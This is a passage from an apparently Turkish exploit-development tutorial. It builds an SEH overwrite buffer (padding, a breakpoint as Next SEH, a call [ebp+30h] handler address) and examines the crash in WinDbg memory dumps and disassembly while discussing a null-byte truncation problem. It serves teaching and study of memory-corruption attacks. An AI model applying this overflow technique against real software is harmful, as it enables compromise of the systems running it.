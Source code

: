 	cokertkaarsim  = "A" * 528           
	cokertkaarsim += "\xcc\xcc\xcc\xcc"             #breakpoint (Next seh)
	cokertkaarsim += struct.pack('<I', 0x00270b0b)  #call    dword ptr [ebp+30h] (SE Handler)
	cokertkaarsim += "D" * 1500                     #junk  

Tekrar çalıştırıp Windbg üzerinde durum kontrolü yapalım.

	0:000> g
	(a80.b00): Break instruction exception - code 80000003 (first chance)
	eax=00000000 ebx=00000000 ecx=00270b0b edx=7c9032bc esi=00000000
    edi=00000000 eip=0012fd98 esp=0012f7a0 ebp=0012f7c4
	0012fd98 cc              int     3
	0:000> !exchain
	  0012f7b8: ntdll!ExecuteHandler2+3a (7c9032bc)
	  0012fd98: 00270b0b
	  Invalid exception stack at cccccccc
	0:000> d 0012fd70
	  0012fd70  41414141 41414141 41414141 41414141
	  0012fd80  41414141 41414141 41414141 41414141
	  0012fd90  41414141 41414141 cccccccc 00270b0b
	  0012fda0  0b34fc31 00000000 0012ff78 5353130e
	  0012fdb0  003540c0 00000000 000002a0 000007a0
	  0012fdc0  b8220002 00000000 00000000 00000000
	  0012fdd0  00000784 003540c0 00000800 00650078
	  0012fde0  02020202 536e6957 206b636f 00302e32

Bakın gördüğünüz üzere her şey doğru ilerliyor. Next SEH değerini `cc` ile, SE Handler'ı da adresimiz ile yazdık. Fakat dostlar, çok dikkat etmeniz gereken bir şey var. Bizim exploitimizde **1500** adet **D** eklemiştik ? Nerde bunlar ? Bu ne lahana turşusu ? Hemen Immunity Debugger ile bakalım.

![](/files/sehnedendurdubukopyalama.png)

Bakın, dediğimiz gibi. Null byte sorunu yüzünden kopyalama durmuş durumda. Şimdi bunu cebe atalım ve unutmadan devam edelim. Şunu önce bir anlayalım, neden `ebp+30` ? Ne var burada ? Merak edilir değil mi ? Bakalım hemen ne var, ne oluyor diye.

	0:000> !exchain
	  0012f7b8: ntdll!ExecuteHandler2+3a (7c9032bc)
	  0012fd98: 00270b0b
	  Invalid exception stack at cccccccc
	0:000> d ebp+30
	  0012f7f4  0012fd98 0012f8a8 0012f860 00270b0b
	  0012f804  0190f6ee 0012f88c 0190f7b2 7c96f31f
	  0012f814  00030000 00350178 00001018 00350000
	  0012f824  0012f620 0014a008 0012f8b0 7c90e920
	  0012f834  7c91ae40 ffffffff 7c91ae3a 0012f8c0
	  0012f844  7c96fdd8 00350608 7c96fdbc 00350000
	  0012f854  00000000 00350000 00630069 005c0065
	  0012f864  00630054 00130000 0012c000 00143b50
	0:000> d 0012fd98
	  0012fd98  cccccccc 00270b0b e28cb364 00000000
	  0012fda8  0012ff78 5353130e 003540c0 00000000
	  0012fdb8  000007f4 000007a0 b8220002 00000000
	  0012fdc8  00000000 00000000 00000784 003540c0
	  0012fdd8  00000800 00650078 02020202 536e6957
	  0012fde8  206b636f 00302e32 13121110 17161514
	  0012fdf8  1b1a1918 1f1e1d1c 23222120 27262524
    0:000> u  0012fd98
	  0012fd98 cc              int     3
	  0012fd99 cc              int     3
	  0012fd9a cc              int     3
	  0012fd9b cc              int     3
	  0012fd9c 0b0b            or      ecx,dword ptr [ebx]
	  0012fd9e 27              daa
